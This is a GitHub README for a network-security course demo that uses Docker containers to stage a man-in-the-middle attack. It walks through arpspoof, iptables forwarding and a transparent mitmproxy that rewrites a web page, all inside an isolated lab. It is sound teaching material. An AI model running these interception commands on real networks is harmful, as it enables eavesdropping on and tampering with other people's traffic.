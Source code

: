 # 🚀 Man-in-the-Middle (MitM) Docker Demo

A simple and lightweight demo showcasing a **Man-in-the-Middle (MitM)** attack via **ARP poisoning** using Docker containers. This project is designed for quick setup, requiring only Docker and `docker-compose`. Everything else is handled by the container configurations.

🔒 **Purpose:**  
This demo was created as part of a Network Security course project.

---

## 🛠 Tools Used
- **Docker**
- **docker-compose**
- **mitmproxy**
- **arpspoof**

---

## 📦 Project Setup
The demo involves three Docker containers connected through a Docker bridge network named `mitm`:

1. **Bob**: Hosts an HTTP server serving files from the `bob_files` directory.  
2. **Alice**: Runs Firefox in a container. Access it from the host at [http://localhost:5800](http://localhost:5800).  
3. **Eve**: The attacker container, used via bash. It has the `eve_files` folder mounted as `/olicyber` inside the container. *(TODO: Rename this folder to a more meaningful name.)*

---

## 🔧 How to Run the Demo

### 1. Set Up the Environment
1. Install **Docker** and **docker-compose**.
2. Start the containers:
   ```bash
   docker-compose up -d

### 2. Verify Initial Setup

- Open **Alice's Firefox** at [http://localhost:5800](http://localhost:5800) and visit [http://bob/](http://bob/).  
  You should see the website served by Bob's HTTP server.  

- Verify Bob's MAC address from Alice's shell:
   ```bash
   docker exec -it mitm_alice /bin/sh
   ip neighbor
### 3. Discover IP Addresses

- On Eve's container, open two bash instances:
   ```bash
   docker exec -it mitm_eve /bin/bash

- Run the dig command to get Alice's and Bob's IP addresses:
    ```bash
   dig alice
   dig bob

### 4. Perform ARP Spoofing

In the two bash instances on Eve's container, run the following commands:
- **Instance 1**:
   ```bash
   arpspoof -t <alice_ip> <bob_ip>
- **Instance 2**:
   ```bash
   arpspoof -t <bob_ip> <alice_ip>
- Check on Alice's shell that Bob's IP now maps to Eve's MAC address:
  ```bash
   ip neighbor
  
## 🔥 Simulating the Attack

### Step 1: Forward Traffic Through Eve
- Run the `add_iptables_rule.sh` script on Eve to forward traffic:
   ```bash
     /olicyber/add_iptables_rule.sh

- Verify that Alice's browser now shows an error when reloading the page. This occurs because packets are being intercepted by Eve but dropped since the proxy is inactive.

### Step 2: Activate the Proxy in Passive Mode

- Start the proxy in passive mode:
   ```bash
   mitmproxy -m transparent

- Reload the page in Alice's browser. The website will load normally, but Eve's mitmproxy instance will display the intercepted requests.

### Step 3: Modify the Webpage

- Restart the proxy with a custom script to alter the website content:
  
  ```bash
   mitmproxy -m transparent -s /olicyber/proxy.py
  
- Reload the browser page, and you'll see the altered website content.

## 🛑 Shutting Down

- Remove the iptables rule:
   ```bash
   /olicyber/del_iptables_rule.sh
   
- Stop the ARP spoofing processes in Eve's bash instances.
